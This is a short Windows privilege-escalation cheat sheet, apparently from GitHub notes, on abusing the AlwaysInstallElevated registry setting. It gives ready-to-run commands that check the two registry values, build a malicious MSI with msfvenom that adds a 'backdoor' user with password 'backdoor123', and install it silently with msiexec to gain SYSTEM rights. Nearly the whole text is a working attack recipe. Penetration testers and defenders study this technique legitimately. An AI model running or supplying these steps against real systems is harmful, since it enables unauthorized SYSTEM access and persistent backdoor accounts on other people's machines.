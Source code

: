 ## Regsiter Gems 

## AlwaysInstallElevated

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated SYSTEM permissions.

Verify that 2 values are set to "1":

```
C:\> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
C:\> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

Then, create a malicous MSI file using msfvenom:

```
root@kali:~/#: msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
```

And execute it:

```
C:\> msiexec /quiet /qn /i C:\evil.msi
```
